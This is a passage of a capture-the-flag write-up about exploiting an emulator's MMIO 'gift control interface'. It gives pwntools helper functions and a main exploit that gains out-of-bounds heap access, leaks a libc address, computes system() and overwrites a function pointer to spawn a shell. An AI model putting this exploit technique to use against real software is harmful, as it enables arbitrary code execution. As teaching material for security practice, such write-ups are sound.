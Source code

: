 We have however to allocate a gift list with length such that `malloc`
will use the tcache chunk. For convenience, we instead allocate a gift
list with fixed size and add padding to the input code to match both
lengths.

## The Exploit

For convenience, I wrote wrapper functions in Python to do operations
on the MMIO interface. For instance to set `gift_idx`, read the
gift at this index and store it in `rax`:

```python
def set_gift_idx(gift_idx):
	payload = 'mov rdi, %d ;\n' % (GCI_START + GCI_CTRL_GIFT_IDX)
	payload += 'mov rdx, %d ;\n' % gift_idx
	payload += 'mov qword ptr [rdi], rdx ;\n'
	return payload

def get_gift():
	payload = 'mov rdi, %d ;\n' % (GCI_START + GCI_CTRL_CMD)
	payload += 'mov rdx, %d ;\n' % GCI_CMD_GET_GIFT
	payload += 'mov qword ptr [rdi], rdx ;\n'
	return payload
	
def get_gift_to_get():
	payload = 'mov rdi, %d ;\n' % (GCI_START + GCI_CTRL_GIFT)
	payload += 'mov rax, qword ptr [rdi] ;\n'
	return payload
```

finally, to read 4 bytes at offset `i` and store them in `rax`,

```python
def get4(i):
    payload = set_gift_idx(i)
    payload += get_gift()
    payload += get_gift_to_get()
    return payload
```

All the assembly instructions of the payloads are concatenated at the
end and assembled using the `asm` pwntools function.

This is the main part of my exploit. The full code is available
[here](./src/23-gift_control_interface/bin/solve.py)

```python
def main():
    io = start()

    [...]
    
    code = set_gift_max(150)
    code += init_gift_list()
    code += set_gift_max((1<<64) - 1) # allows OOB access
    code += set_gift_to_add(0xcafebabe)
    code += add_gift()
    code += set4(152, 0x6873) # overwrite the first bytes of uc_engine with "sh"
    code += get8(97516)  # ptr to libc (main arena)
    code += 'sub rax, 0x1ab3e0 ;\n' # @system
    code += set8_val_rax(5240)  # overwrite pointer to gci_read
    code += get_gift_max() # trigger a read
    # print(code)

    code = asm(code)
    code += b'A' * (150*4 - len(code)) # padding to allocate gift list in tcache chunk
    
```